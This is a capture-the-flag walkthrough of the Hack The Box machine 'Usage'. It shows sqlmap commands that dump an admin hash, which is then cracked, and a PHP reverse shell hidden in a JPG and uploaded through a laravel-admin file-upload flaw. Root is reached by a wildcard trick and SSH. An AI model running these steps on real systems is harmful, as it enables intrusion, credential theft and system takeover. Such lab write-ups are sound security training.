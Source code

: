 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Hack The Box - Usage
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps

#### Nmap Results

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/262a3e3d-d622-4ddb-943c-a25262dd15c4)


I add usage to `/etc/hosts` with the corresponding ip address given. Then navigate to `http://usage.htb`

```
echo "10.10.11.18   usage.htb" | sudo tee -a /etc/hosts
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e3dd36f2-b62a-4418-8dbb-aa516a39f3ec)

#### Subdomain Enumaration

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.usage.htb" -u http://usage.htb -fs 154
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/a9118ccd-eaae-48f4-bc67-bffb955466e4)

and I found `admin.usage.htb` and added to `/etc/hosts`

```
echo "10.10.11.18    admin.usage.htb" | sudo tee -a /etc/hosts
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e014a343-d0b3-4af0-9a31-e0084c89cbc0)


#### Whatweb

```
whatweb 10.10.11.18
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/a5c0fe04-dd17-4b10-8241-d93da4561a7b)

I Identified that this website is built using the Laravel framework

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel



### User Flag

After checking out the Password Reset Option and finding it interesting, I fired up Burp Suite. I captured the POST request, as shown below:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/d1255c2a-589d-41ee-b75e-c9a714d9a87d)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/58a49c54-5fde-4fd4-8d09-89e53c03f078)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/967606a2-a82a-4ead-beb1-5d8cedd71825)


I copied the POST request to a text file, which I named `request.txt`

```
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6IkVMOEV1aUo4VjFHSEw3VEIzeERyRVE9PSIsInZhbHVlIjoiR3R4aVJxRWxMakUvNE1oVkQ0SS9DR3Q1T3FBTnZvS2JTY3R3dlFnZEJ2Z2NhaUp2V0FKTGtJSVdUS2VnK3crSlNrUEFnS2NQMXBBQllrWWJtYmdMR0w1SzdxR2dGY3lsT1BHeVRGNXp3bEttWUNRNmRBSkk4RXkxS0xYK1pOb0wiLCJtYWMiOiJlMzkyYTY1YzJjOGQ2MDdiNWI3MTRiZGIxYzk2N2FlMzNiYzFlNjZiZjk4NWE4MDkyYWE3NjgxMGI5NTMxMjgyIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjUxUE5tOW5TYlAxd0FFQ3p2YjhEaXc9PSIsInZhbHVlIjoiTGl0Y3hFZU81Y2F2anNXcXNXa3pVd0RwNHcvYjMzbHBSWTlISW80VjZBSzVjTTZDd3FKVkhiNnhPdDVDejNYK2RVNDcvSERMOGc2dzNFMHpycTBSeGZSemk2TEZyZk5QWDE2N05YM21GcWFDcHJRSjVGSTRFajVhSTBOR0IvOTEiLCJtYWMiOiJiYzYwMDUyMGQzMTk2ODM2ZDkxMTI1NjhmYWFmYmU3YjgxZjMzMjUzZGExYWE1YTQ0MTA1NGI4NjMwYmFhMDU4IiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1

_token=jElJgEoOoONVCfBoDfa67TPzd6VxBk4o43ObgKlY&email=1*
```

Now, let's fire up SQLMap.

```
sqlmap -r request.txt --level 5 --risk 3 --batch
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/6b6b64cc-60a2-4095-a6e5-f0497d7f1e39)


```
sqlmap -r request.txt --level 5 --risk 3 --batch --dbs
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/006a9509-9d5c-4321-8e38-d29e23b558c2)

```
sqlmap -r request.txt --level 5 --risk 3 --batch -D usage_blog --tables
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/5d27c0aa-7d0d-46e0-802b-bf7ef31ba846)

```
sqlmap -r request.txt --level 5 --risk 3 --batch -D usage_blog -T admin_users --columns
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/3b7f3015-a002-4657-9b82-3399ca75d385)

```
sqlmap -r request.txt --level 5 --risk 3 --batch -D usage_blog -T admin_users -C username,password --dump
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b787f27b-9d1d-4521-9a9b-31646c38cc2a)

So I copied the hash and saved it to `pass.txt`

```
echo "$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2" > pass.txt
```

let's use john to crack it.

```
john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/32720f6c-00e4-4828-9027-4fd3a30975fe)

and I used these credntials to login to admin portal (`admin : whatever1`)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/2de43c41-5f44-4f0d-a629-9f383f6c0f2a)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/92ee756b-5372-43ea-9fd9-a6fd3a365377)

Search for the latest vulnerabilities and find a warning about laravel-admin having an arbitrary file upload vulnerability (CVE-2023-24249). The affected version number is 1.8.19, and the system version number is 1.8.18. It should be affected,  and finally found this article:

https://flyd.uk/post/cve-2023-24249/

Let's prepare the webshell. Here we use kali's php shell file locate at : `/usr/share/webshells/php/php-reverse-shell.php`, modified the IP (tun0) and port (4444) information, and then use 010editor to create a picture horse.

```
cp /usr/share/webshells/php/php-reverse-shell.php .
```

```
nano php-reverse-shell.php
```
![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/734ecf2c-79e8-4dee-bb66-9a2f946162ac)

Now let's download the 010editor : https://www.sweetscape.com/download/010editor/

Let's extract and run the 010editor

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/434e87e4-fcfc-40a7-8a64-c32d8d051d7a)

then i went to `http://admin.usage.htb` and move to `administrator settings` and i have downlod the admin image like below:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/7d869bdc-9536-44a5-961b-98f9bea085b3)

Then I open that image from 010editor ( Open File ---> select the image file)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/83b1f9f2-ac2f-48bf-b489-3ab63000899a)

then In that image, I moved to the end of the header and paste the selected php-reverse-shell code:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/467e8d46-bc20-4c7e-960c-86d23805657e)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/37963562-1712-46d6-b2f0-ea63fdf1043e)

then saved the file as `shell.jpg`

#### Initial Foothold

let's create a netcat listner:

```
nc -nlvp 4444
```


Then I fired up the burp suite and intersept the process of uploading `shell.jpg`.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/21fba85e-5d9e-4ac3-99fb-5f3634c0f5cd)

so now we can change the filename to `shell.jpg.php` and forward the requests:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/c097dc56-59e4-418a-8754-6c82470cc72c)

so we got the reverse shell, so let's get the `user.txt`

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/c6e15823-278a-462d-995e-c066e8afdfac)


### Privilege Escalation

I was searching all the options to escalate privileges, but I couldn’t find anything. So, I tried listing all users on the system.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b9c4eebf-9447-4198-a38e-00e546ce46ce)

I realize I need to locate Xander’s credentials, but how can I do it? And then, I stumbled upon a file (.monitrc) that contained Xander’s credentials. 

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/fde58e94-ec57-4192-a182-c0753dd46f7d)

```
ssh xander@usage.htb
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/2f6cb420-9aba-4621-a341-8d8da4d049da)


### root.txt

```
sudo -l
```
![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/6053ec59-0bee-4258-9bbb-6bba266e3886)

Since this is custom software, there’s no way to attack it using GTFOBins. However, we can utilize the strings command to read binary files.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/28b66857-bd31-4fda-b78e-9d183ca41d6e)

Let's use wildcards spare tricks: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/cc9d3ee9-1a98-49be-8ade-31d10f5936fa)

so we able to get the `root.txt`.  so let's use same method to get root shell

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/02c2b633-4d9d-4f35-8e72-2a8f0b39b9d1)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/53067f8a-9f73-45ed-a7fe-5a2b6fbed1a4)

so I create the `id_rsa` file gave the required privileges

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/9d66bb4d-2ce3-4b97-8177-0ad19b274333)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/6bdb1f90-c4e3-4897-a01e-d0c4d1212635)

```
chmod 600 id_rsa
```

```
ssh -i id_rsa root@usage.htb
```
